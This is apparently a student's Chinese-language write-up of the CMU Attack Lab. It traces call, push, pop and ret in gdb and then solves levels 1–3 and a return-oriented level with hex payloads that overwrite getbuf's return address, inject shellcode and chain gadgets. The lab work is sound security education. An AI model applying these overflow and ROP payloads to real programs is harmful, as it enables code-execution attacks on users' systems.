






首先在进行实验之前先对call，ret，push，ret函数进行深一步的理解

# call,pop,push,ret

分析个人感觉push和pop，还有ret并不是很明白。

所以自己写了个例子来仔细地分析下，查看一下过程。

```
int add(int a, int b) {
    int *f = &a;
    int *d = &b;
    return (*f) + (*d);
}

int main() {
    int a = 10;
    int b = 20;
    printf("%d", add(a, b));
    return 0;
}
```

随便写的函数





查看汇编代码

首先打断点在add函数前面暂停，查看所有的寄存器



根据rip可以知道下一个指令就是吊起add函数。

```
(gdb) si
add (a=21845, b=1430259469) at main.c:6
6       int add(int a, int b) {
(gdb) p $rsp
$6 = (void *) 0x7fffffffe1b8
(gdb) x/1gx $rsp
0x7fffffffe1b8: 0x0000555555400699
```

根据rsp的值可以查看出rsp进行了`-0x8`(由c0变成了b8)然后将main函数的下一条指令放到rsp地址处

```(gdb) si
(gdb) si
0x000055555540064b      6       int add(int a, int b) {
(gdb) p $rsp
$7 = (void *) 0x7fffffffe1b0
(gdb) x/2gx $rsp
0x7fffffffe1b0: 0x00007fffffffe1d0      0x0000555555400699
```

查看push操作到底是怎么回事。

再次执行si将会执行push %rbp操作，根据上面的情况我们可以发现push操作也会使得rsp的值进行`-0x8`，然后将rbp寄存器中的值放到rsp地址处。


同理pop %rbp操作

打断点到pop %rbp处，查看。

```
(gdb) p $rsp
$9 = (void *) 0x7fffffffe1b0
(gdb) p $rbp
$10 = (void *) 0x7fffffffe1b0
(gdb) x/1gx $rsp
0x7fffffffe1b0: 0x00007fffffffe1d0
(gdb) si
0x0000555555400673      10      }
(gdb) p $rsp
$11 = (void *) 0x7fffffffe1b8
(gdb) p $rbp
$12 = (void *) 0x7fffffffe1d0
```

发现pop %rbp是将rsp的寄存器中的内存值，先放到寄存器rbp中，然后rsp在`+0x8`

```
(gdb) p $rip
$13 = (void (*)()) 0x555555400673 <add+41>
(gdb) x/1gx $rsp
0x7fffffffe1b8: 0x0000555555400699
(gdb) si
0x0000555555400699 in main () at main.c:15
15          printf("%d", add(a, b));
(gdb) p $rip
$14 = (void (*)()) 0x555555400699 <main+37>
(gdb) p $rsp
$15 = (void *) 0x7fffffffe1c0
```

我们发现ret就是将rsp中的内存值放到rip处，然后rsp+0x8。

**总结：call命令就是rsp - 0x08，将下一条指令的地址放到rsp寄存器指向的地址处，**

**push命令就是将rsp - 0x08，将push后面的寄存器的值放到rsp指向的地址处**

**pop命令将rsp指向的值放到对应的寄存器中，然后rsp + 0x08**

**ret命令将rsp指向的值放到rip寄存器中，然后rsp + 0x08**

# 1

根据读指导文件发现首先需要定位到test函数

```c
 void test() {
 	int val;
 	val = getbuf();
 	printf("No exploit. Getbuf returned 0x%x\n", val);
 }
```


```
0000000000401968 <test>:
  401968:  48 83 ec 08            sub    $0x8,%rsp
  40196c:  b8 00 00 00 00         mov    $0x0,%eax
  401971:  e8 32 fe ff ff         call   4017a8 <getbuf>
  401976:  89 c2                  mov    %eax,%edx
  401978:  be a8 32 40 00         mov    $0x4032a8,%esi
  40197d:  bf 01 00 00 00         mov    $0x1,%edi
  401982:  b8 00 00 00 00         mov    $0x0,%eax
  401987:  e8 64 f4 ff ff         call   400df0 <__printf_chk@plt>
  40198c:  48 83 c4 08            add    $0x8,%rsp
  401990:  c3                     ret    
  401991:  90                     nop
  401992:  90                     nop
  401993:  90                     nop
```

然后我们的任务是让getbuf执行其return语句时执行touch1的代码，然后需要进行查看getbuf函数才可以查看怎么进入touch1的代码。

```
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    $0x28,%rsp
  4017ac:       48 89 e7                mov    %rsp,%rdi
  4017af:       e8 ac 03 00 00          call   401b60 <Gets>
  4017b4:       b8 01 00 00 00          mov    $0x1,%eax
  4017b9:       48 83 c4 28             add    $0x28,%rsp
  4017bd:       c3                      ret
  4017be:       90                      nop
  4017bf:       90                      nop
```

根据最初rsp的值我们可以发现getbuf的容量，该函数只能够输入0x28个字节换成10进制就是40个字节

首先分析怎么才能够进入到touch1函数，根据函数递归栈的原则，我们可以知道在进行调用下一个函数的时候，我们会将当前函数的下一条指令的地址值进行添加到栈中(也就是call指令的作用)。

然后进入到下一个函数在getbuf函数中，设置输入的数据的长度不能够大于40长度，也就是说我们输入的字符是从rsp-0x28的位置进行输入的，然后输入的字符串不断地向上进行覆盖，当我们输入的长度大于0x28的时候就会覆盖原来的函数的下一条指令。

根据上面的思想进行gdb的调试。


首先获取touch1函数的位置：00000000004017c0  （8字节）

分析到这里之后根据getbuf的rsp-0x28其中0x28对应十进制的40，我们可以发现缓冲区的大小是40，在这个范围内的数据可以任意填写，40之后的数据应该对应着touch1地址的位置，才能够进行跳转。

```c
void touch1() {
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

文件touch1(前40个字符是任意输入的)

```
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
c0 17 40 00 00 00 00 00
```

```
$ cat touch1 | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 C0 17 40 00
```

使用gdb进行调试进行查看是否符合自己的思想。首先应该在getbuf处打一个断点，继续执行下去然后反编译查看下getbuf

​	先将touch1保存到一个文件中便于gdb调试。

```
./hex2raw < touch1 > temp1
```

```
$ gdb ctarget
(gdb) start -q < temp1
(gdb) b getbuf
Breakpoint 2 at 0x4017a8: file buf.c, line 12.
(gdb) c
Continuing.
Cookie: 0x59b997fa

(gdb) disas
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
```

接着查看rsp和rip指令以及rsp指向的内存值8字节（64位）

```
(gdb) p $rip
$1 = (void (*)()) 0x4017a8 <getbuf>
(gdb) p $rsp
$2 = (void *) 0x5561dca0
(gdb) x/1gx $rsp
0x5561dca0:     0x0000000000401976
```

下面我们应该在ret指令处进行打断点，查看一下当前的rsp寄存器指向的内存值，以及我们输入的值。因为add    $0x28,%rsp所以查看的时候需要-0x28，我们可以看出在0x5561dca0地址的值由0x0000000000401976变成了我们输入的0x00000000004017c0，此处是还没有执行ret的情况。最后执行完ret我们发现rip程序下一条指令的地址值变成了我们期望的touch1的地址。

```
(gdb) b *getbuf+21
Breakpoint 3 at 0x4017bd: file buf.c, line 16.
(gdb) c
Continuing.

Breakpoint 3, 0x00000000004017bd in getbuf () at buf.c:16
16      in buf.c
(gdb) x/6gx $rsp-0x28
0x5561dc78:     0x3131313131313131      0x3131313131313131
0x5561dc88:     0x3131313131313131      0x3131313131313131
0x5561dc98:     0x3131313131313131      0x00000000004017c0  
(gdb) p $rip
$3 = (void (*)()) 0x4017bd <getbuf+21>
(gdb) si
touch1 () at visible.c:25
25      visible.c: No such file or directory.
(gdb) p $rip
$4 = (void (*)()) 0x4017c0 <touch1>
```

# 2

接下来需要调用touch2，依旧是上面的test和getbuf函数，但是touch2具有传参val

```c
void touch2(unsigned val) {
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

我们的目的是让getbuf，ret指令rsp依旧是touch2地方。但是需要将rdi寄存器的值设置成cookie(函数的第一个参数是保存在rdi寄存器中的)。

```
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    $0x28,%rsp
  4017ac:       48 89 e7                mov    %rsp,%rdi
  4017af:       e8 ac 03 00 00          call   401b60 <Gets>
  4017b4:       b8 01 00 00 00          mov    $0x1,%eax
  4017b9:       48 83 c4 28             add    $0x28,%rsp
  4017bd:       c3                      ret
  4017be:       90                      nop
  4017bf:       90                      nop
```

思考：我们怎么才能够让寄存器rdi的值变成想要的cookie的值，我们可以自己写汇编代码完成，

1. 将cookie的值放到rdi寄存器中
2. 跳转到touch2位置处

完成步骤一只需要mov $0x59b997fa,%rdi   将立即数放到rdi寄存器中

完成步骤二，想要跳转到touch2位置处，由于作者要求不要使用jmp指令，我们想到的就是使用ret指令，因为使用ret指令可以改变rip的值，但是由于使用ret指令会将栈中的值进行弹出rsp位置的值，所以在此之前我们应该先将touch2的地址先push进去。

最后我们需要让getbuf的ret之后的rip指向我们自己注入的上述的代码。

先完成汇编代码到机器代码的过程**编写的汇编代码：example.s**

```
mov $0x59b997fa,%rdi
pushq $0x4017ec
retq
```

**转换成机器代码过程**

```
$ gcc -c example.s
$ objdump -d example.o 
```

```
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

由第一题我们可以得到我们输入的字符串存放到内存地址是：**0x5561dc78**。该字符应该放到40个字节之后用于getbuf的ret的情况，返回我们自己编写的代码。

touch2

```
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
31 31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31 31
78 dc 61 55 00 00 00 00
```

```
$ cat touch2 | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 78 DC 61 55 00 00 00 00
```

使用gdb进行调试查看代码的过程和我们的思路是否一致

先将输入的数据放到一个文件中便于调试

```
$ ./hex2raw < touch2 > temp1
$ gdb ctarget
(gdb) start -q < temp1
```

我们应该在getbuf处进行打断点

```
(gdb) b getbuf
Breakpoint 3 at 0x4017a8: file buf.c, line 12.
(gdb) c
Continuing.
Cookie: 0x59b997fa

Breakpoint 3, getbuf () at buf.c:12
12      buf.c: No such file or directory.
```

依旧是查看rsp的值和该值指向的内存值，可以发现call getbuf并没有什么意料之外的情况

```
(gdb) p $rsp
$1 = (void *) 0x5561dca0
(gdb) x/1gx $rsp
0x5561dca0:     0x0000000000401976
```

然后rsp-0x28，我们发现我们输入的数据应该在以地址为`0x5561dca0 - 0x28 = 0x5561dc78`为最低地址然后向上增长，使用gdb进行调试查看是否正确。

```
0x5561dc78:     0x6859b997fac7c748      0x313131c3004017ec
0x5561dc88:     0x3131313131313131      0x3131313131313131
0x5561dc98:     0x3131313131313131      0x000000005561dc78
```

查看 0x5561dc78 地址处的值与我们输入的值是一致的。

查看getbuf的ret情况，可以看出rsp指向的内存值不在是程序预期的，而是我们期望的注入代码的值。

```
(gdb) p $rsp
$2 = (void *) 0x5561dca0
(gdb) x/1gx $rsp
0x5561dca0:     0x000000005561dc78
```

不断地调试代码可以发现程序的执行过程与我们期望的过程是否一致。

```
(gdb) p $rip
$3 = (void (*)()) 0x4017bd <getbuf+21>
(gdb) si
0x000000005561dc78 in ?? ()
(gdb) p $rip
$4 = (void (*)()) 0x5561dc78
```

查看mov    $0x59b997fa,%rdi

```
(gdb) p /x $rdi
$6 = 0x7ffff7dcda00
(gdb) si
0x000000005561dc7f in ?? ()
(gdb) p /x $rdi
$7 = 0x59b997fa
```

查看pushq $0x4017ec   retq

```
(gdb) p $rsp
$9 = (void *) 0x5561dca0
(gdb) x/1gx $rsp
0x5561dca0:     0x00000000004017ec
(gdb) p $rip
$10 = (void (*)()) 0x5561dc84
(gdb) si
touch2 (val=1505335290) at visible.c:40
40      visible.c: No such file or directory.
(gdb) p $rip
$11 = (void (*)()) 0x4017ec <touch2>
```

程序rip寄存器的值，最终指向touch2函数的开始位置。

# 3

```c
//将val数字转换成字符串，与sval字符串进行比较9位，如果相同返回1，否则返回0
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    char *s = cbuf + rand() % 100;
    //将val转换成16进制的8位数使用s进行保存
    sprintf(s, "%.8x", val);
    //比较两个字符串的前n个字符相同返回0,s1大返回>0的值，反之返回<0
    printf("%s\n", s);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) {
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

根据hexmatch函数可以知道，该函数将数字0x59b997fa转换成了一个字符串"59b997fa"。

```c
    char c[] = "59b997fa";
    for (int i = 0; i < 8; ++i) {
        printf("%.2x ",c[i]);
    }
//35 39 62 39 39 37 66 61
```

35  39  62  39  39  37  66  61，要想执行touch3我们必须要有一个字符串是上面的顺序，才能够满足字符串相等的情况执行后续的步骤

分析我们要做的事情，首先sval也就是rdi寄存器的值应该保存着35  39  62  39  39  37  66  61的地址值。

大体的思路可以在2上面进行修改，首先我们先确定第一行的位置的地址是(也就是我们输入的第一个字符的位置(字符串的最低地址))：**0x5561dc78**。

```
mov 第6行的地址 rdi
push touch3
ret
........
78 dc 61 55 00 00 00 00 
35  39  62  39  39  37  66  61  00
```

**注意为什么要将35  39  62  39  39  37  66  61  00放到输入的最下面而不是放在上面缓冲区里面？**

首先我们分析过程，根据正常的执行我们会输入一定的字符串使得覆盖下一条指令的地址，到达我们想要执行的地方，这个时候就是到达我们的缓冲区的地方了，开始执行缓冲区的代码(自己写的)，注意执行缓冲区的代码的时候会有一个ret指令，现在我们纠结的就是将35  39  62  39  39  37  66  61  00放到ret后面还是前面，如果放在前面我们继续执行代码会发现，**在ret的时候会使得调用touch3和hexmatch函数，我们放在缓冲区里面的代码有可能会被hexmatch函数中的声明变量cbuf给覆盖**，为什么放在ret下面不会被覆盖，因为：放在下面代表着是高地址部分的数据，也就是父函数(栈是从上向下扩展的)，在子函数ret的时候不会覆盖父函数。所以我们应该放在缓冲区的外面，也就是继续向栈的上面进行书写，覆盖父函数的代码部分(反正吊起touch3就好了)。 

```
mov $0x5561dca8,%rdi
pushq $0x04018fa
retq
```

mov 的地址是数出来的

```
mov $0x5561dca8,%rdi
pushq $0x04018fa
retq
```

touch3

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 
```

```
$ cat touch3 | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61
```


# 4(参考)

作者：金际一线天

链接：https://www.jianshu.com/p/db731ca57342

来源：简书

著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。



**理解重点：注意我们的注入的代码的核心思想是：首先是根据当前的getbuf函数ret之后执行我们输入的地址到rip寄存器中，这个时候rip执行一条命令然后执行一条ret，也就是说我们截取的代码必须是ret之前的一条指令，然后只有这样才能不断的获取栈上面的地址值不断的执行地址内存中对应的命令**


之后的实验比较复杂，指导的pdf大致的意思是根据现有的代码，然后节选机器指令使得节选的部分成为自己想要的部分，实现攻击代码。

要求：4和5的部分根据函数start_farm和 end_farm之间的代码进行构造。

1. 将cookie(0x59b997fa)放到rdi寄存器中
2. 跳转到touch2函数

```
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    $0x28,%rsp
  4017ac:       48 89 e7                mov    %rsp,%rdi
  4017af:       e8 ac 03 00 00          callq  401b60 <Gets>
  4017b4:       b8 01 00 00 00          mov    $0x1,%eax
  4017b9:       48 83 c4 28             add    $0x28,%rsp
  4017bd:       c3                      retq
  4017be:       90                      nop
  4017bf:       90                      nop
```

**此程序应用了栈随机化、栈破坏检测和限制可执行代码区域。也就是说，不能把代码放在栈中了。可以利用程序中原有代码的字节码。**

- 栈随机化：使得程序每次运行时栈的地址都不相同，我们无法得知我们注入的攻击代码的地址，也无法在攻击代码中硬编码栈中的地址。
- 标记内存中的栈段为不可执行：这意味着注入在栈中的代码无法被程序执行。

```
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

左面的部分是我们想要的机器代码部分，我们需要在start_farm和 end_farm两个函数之间进行查找我们想要的代码。

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a3 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

分析第五行使rip指向0x4019ab的位置

执行此命令将下面rsp指向的值fa 97 b9 59 00 00 00 00弹出放到rax寄存器中，然后继续执行4019a3地址



然后在ret到4017ec就是touch2函数的起始位置处。

**首先注意ret的过程还得在细说一下，call命令会让rsp-0x08，然后rsp指向的位置就是下一条指令的地址值，调用ret之后此时的rsp指向的位置就会放到rip位置处，然后rsp+0x08，根据我们的本题情况会发现rip在执行的过程中执行一条命令就会到ret处，然后在从rsp中进行读取下一条指令的地址，如此下来就会不断的从rsp位置处读取指令的地址值，按照我们期望的情况执行下去。**

按照上面的分析就会发现，首先会执行`popq %rax`命令注意此时由于ret此时的rsp指向的是fa 97 b9 59 00 00 00 00，这个命令会将cookie的值放到rax寄存器中，此时rsp指向a3 19 40 00 00 00 00 00，rip继续向下执行会到ret命令处，ret命令会将rsp的指向值放到rip然后rsp+0x08，此时rip = 4019a3，执行movl %eax,%edi，然后我们就将cookie放到了rdi寄存器中，rip继续命令会执行ret，然后rip会弹出rsp位置处的值，此时rsp的值就是4017ec，touch2函数的开始位置。

```
$ cat r1 | ./hex2raw | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A3 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```


